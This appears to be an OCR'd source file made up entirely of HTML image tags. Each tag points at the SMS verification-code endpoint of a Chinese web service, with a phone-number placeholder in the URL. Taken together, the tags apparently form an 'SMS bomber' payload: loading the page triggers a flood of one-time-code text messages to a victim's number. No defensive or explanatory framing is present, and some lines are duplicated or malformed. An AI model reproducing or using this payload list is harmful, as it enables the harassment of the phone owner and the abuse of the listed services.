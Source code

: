 <img src='https://api.sharkshopping.com/ec/api?method=b2c.member2.related_sms&uname=$d' alt=''/>&type=1
<img src='http://api2.cloudlinks.cn:80/Users/PhoneCheckCode.ashx?CountryCode=86&PhoneNO=$d' alt=''/>&AppVersion=6357251
<img src='http://mobile.health.pingan.com:80/ehis-hl/ajax/sendOTP.action?smscc=ehiswxonly&phone=$d' alt=''/>
<img src='http://api.passport.pptv.com:80/checkImageCodeAndSendMsg?&scene=REG_PPTV_APP&deviceId=867830021000533&aliasName=$d' alt=''/>
<img src='http://reg.suning.com:80/ajax/code/sms.do?scen=WAP_WCHAT_PUB_ACCT_UNION_LOGIN_MOBILE_REG&phoneNum=$d' alt=''/>
<img src='http://www.zuoyebang.com:80/session/pc/sendtoken?ajax&phone=$d' alt=''/>&sendType=1&tokenType=6&_t_=1573784070671&os=pcweb&appId=homework&channel=&plat=wap&cType=pc&fr=&lastfrom=&name=JC_C2_3_20100
<img src='https://androidapi4.yc.ifeng.com:443/api/fread/user/msgAuthCode?phoneNum=$d' alt=''/>&v=5.5.32.83027
<img src='http://v2.tgmmvip.com:80/wolong/user/getphonecode?phone=$d' alt=''/>&deviceid=864680046080077&type=0
<img src='https://m.health.pingan.com:443/mapi/smsCode.json?deviceId=5a4c935cbb6ff6ca&deviceType=SM-G9300&timestamp=1545122608&app=0&platform=3&app_key=PAHealth&osversion=23&info=&version=1.0.1&resolution=1440x2560&screenSize=22&netType=1&channel=m_h5&phone=$d' alt=''/>
<img src='http://doc.u-ease.com:80/account/Verifycode/login?app_os=IOS&app_version=3.0.8&device_id=B097BD84-2B27-4E2B-AAB3-D05E3AE0FBE0&phone=$d' alt=''/>
<img src='https://exmail.qq.com/cgi-bin/bizmail_portal?action=send_sms&type=11&t=biz_rf_portal_mgr&ef=jsnew&resp_charset=UTF8&area=86&mobile=$d' alt=''/>
<img src='https://user.zhaobiao.cn/ssologin.do?method=sendLoginCodeAjax&mobile=$d' alt=''/>&hasSend=0
<img src='http://api.passport.pptv.com/checkImageCodeAndSendMsg?&scene=REG_PPTV_APP&deviceId=867830021000533&aliasName=$d' alt=''/>
<img src='https://passport.fanhuan.com/login/asklogincode?callback=jQuery18307700360712450502_1523359569433&mobile=$d' alt=''/>
<img src='http://api.fine3q.com/link-site/api/user/get_verification_code.json?ts=1561901787148&c_id=1&p=a&d_id=861913032338784&ver=3.1.5&mobile=$d' alt=''/>
<img src='https://api-dcdn.jiayouxueba.cn/api/v3/sms/vcode?countryId=685&mobile=$d' alt=''/>
<img src='https://class.hujiang.com/classtopic/handler/phonecaptcha?areaID=87051&phoneNumber=$d' alt=''/>
<img src='http://api.qingmang.me/v1/account.sendVerification?code=1566478386.8872059778&phone=$d' alt=''/>
<img src='http://app.quanlaoda.com/app.php?&m=code&a=send_login_code&phone=$d' alt=''/>
<img src='http://bizapi.pezy.cn/qknode/sms/reqSmsCode?df=android&publishid=1003&deviceId=8812baafc8de4fe4&vt=5&screen=720x1280&deviceid=&os=android&proid=qknode&av=MMB29M&appVersion=1.6.1&imei=&ov=6.0.1&osVersion=6.0.1&deviceVersion=Redmi 4A&osLevel=23&phone=$d' alt=''/>
<img src='https://exmail.qq.com/cgi-bin/bizmail_portal?action=send_sms&type=11&t=biz_rf_portal_mgr&ef=jsnew&resp_charset=UTF8&area=86&mobile=$d' alt=''/>&img_vc=
<img src='http://www.yundaipay.com/index/user/getMsgCode?username=$d' alt=''/>
<img src='https://mobile.health.pingan.com/ehis-hl/ajax/sendOTP.action?smscc=ehiswxonly&phone=$d' alt=''/>
<img src='http://bank.wo.cn/wxun/api/my/getSmsCode?mobile=$d' alt=''/>
<img src='http://wap.zt.raiyi.com/weixin/bind/verifyMobile?mobile=$d' alt=''/>&appCode=fc_wx&buyChannel=OfficialAccounts&vtype=0
<img src='https://client.uqbike.com/sms/sendAuthCode.do?accountId=5&phone=$d' alt=''/>
<img src='https://passport.fanhuan.com/login/asklogincode?callback=jQuery18307700360712450502_1523359569433&mobile=$d' alt=''/>&_=1523359575414
<img src='https://appapi-h5.yongche.com/Common/CreateAuthCode?cellphone=$d' alt=''/>
<img src='https://nuc.api.mgtv.com/GetMobileCode?_support=10100001&device=Redmi&osVersion=6.0.1&appVersion=6.2.0&ticket=&userId=0&mac=i8812baafc8de4fe&osType=android&channel=qq&uuid=&endType=mgtvapp&androidid=8812baafc8de4fe4&imei=&macaddress=&seqId=&version=5.2&type=10&abro
<img src='https://uac.10010.com/oauth2/OpSms?callback=jsonp1544753247279&req_time=1544753262715&user_id=$d' alt=''/>&app_code=ECS-YH-WAP
<img src='https://uac.10010.com/portal/Service/SendMSG?callback=jQuery172076565523879526_1506486642542&req_time=1506486656403&mobile=$d' alt=''/>&_=1506486656411
<img src='http://114.55.104.205/api/auth/send?mobile=$d' alt=''/>&access_token=$d' alt=''/>
<img src='https://sso-c.souche.com/loginApi/getCaptchaUrlByPhone.json?app=tangeche&phone=$d' alt=''/>
<img src='http://api-v1.ezpaychain.com/invoice/v1/user/send-sms?calling_codes=+86&phone_number=$d' alt=''/>&type=activation&version=1
<img src='http://api.fine3q.com/link-site/api/user/get_verification_code.json?ts=1561901787148&c_id=1&p=a&d_id=861913032338784&ver=3.1.5&mobile=$d' alt=''/>
<img src='http://api.hanju.koudaibaobao.com/api/user/verifyMobile?country=+86&mobile=$d' alt=''/>
<img src='https://api-dcdn.jiayouxueba.cn/api/v3/sms/vcode?countryId=685&mobile=$d' alt=''/>&sign=d012c7dbfeba6014a28b9093156cd52d&ts=1565428712975901&type=1
<img src='http://api.hanju.koudaibaobao.com/api/user/verifyMobile?_ts=1564136775711&country=+86&mobile=$d' alt=''/>
<img src='http://api.hsj.huanci.net/index.php/api/user/isPhoneRegister?appVer=1.1.0&cur_user_id=-1&device=iPhone 6S&device_brand=Apple&device_model=iPhone&os_version=12.4&phone=$d' alt=''/>&platform=iOS&token=&userId=-1&version_code=110